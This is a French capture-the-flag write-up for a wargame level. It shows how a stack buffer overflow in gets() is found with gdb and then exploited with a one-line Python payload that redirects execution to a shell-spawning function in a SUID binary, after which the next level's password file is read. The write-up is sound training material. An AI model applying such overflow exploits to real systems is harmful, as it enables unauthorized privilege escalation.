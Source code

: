 # level1 - Stack Buffer Overflow

Le niveau nécessite l'exploitation d'un buffer overflow pour rediriger l'exécution vers une fonction `run()` qui exécute un shell.

## Analyse du Programme

**Structure de la Stack**
- La fonction `gets()` est utilisée sans vérification de taille
- Le buffer overflow permet de réécrire l'adresse de retour (saved EIP)
- L'adresse de `run()` est `0x8048444`

## Exploitation du Buffer Overflow

**Localisation de l'Adresse de Retour**
```bash
(gdb) i f
Stack level 0, frame at 0xbffff740:
eip = 0x8048481 in main; saved eip 0xb7e454d3
```

**Calcul de l'Offset**
- Utilisation d'un pattern cyclique pour trouver l'offset précis
- L'offset entre le début du buffer et EBP+4 est de 76 bytes

![alt Ressources/overflow_pattern_1.png](Ressources/overflow_pattern_1.png)

![alt Ressources/overflow_pattern_2.png](Ressources/overflow_pattern_2.png)

**Construction de l'Exploit**
```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

L'exploit fonctionne en:
1. Remplissant 76 bytes avec des "A"
2. Ajoutant l'adresse de `run()` en little-endian
3. Maintenant le shell ouvert avec `cat`

## Obtention du Flag
```bash
cat /home/user/level2/.pass
```

Cette méthode fonctionne car le programme est compilé avec le bit SUID, permettant l'exécution du shell avec les privilèges de level2.

